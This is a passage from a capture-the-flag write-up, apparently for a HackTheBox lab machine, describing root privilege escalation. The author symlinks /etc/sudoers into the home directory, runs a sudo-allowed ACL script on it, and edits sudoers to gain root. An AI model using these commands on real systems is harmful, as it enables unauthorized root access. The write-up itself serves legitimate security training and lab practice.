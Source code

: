 This seems to limit us but I think we could still follow the rules of the script while bending it via a symlink. 

A symlink is just a file that references another file. If we make a symlink within the home directory and have it reference another, more valuable file, we can escalate our permissions.

let's do just that. I imagine there are numerous, more elegant solutions than mine, but I'm just going to make the file point to the sudoers file and change my permissions:

``` bash
ln -s /etc/sudoers /home/mtz/oops # creates symlink "oops" and points it to sudoers

sudo /opt/acl.sh mtz rw /home/mtz/oops #run the acl.sh as root on our new symlink
nano oops #open up the sudoers file
```

![](/assets/img/htb_permx/Screenshot_from_2024-09-17_01-09-38.png)

mtz now has root!

we should now log out of the ssh session and log back in to use our new permissions

``` bash
sudo su
cd /root
```

from there, you should see the root.txt file.

Hope this helped, happy hacking!
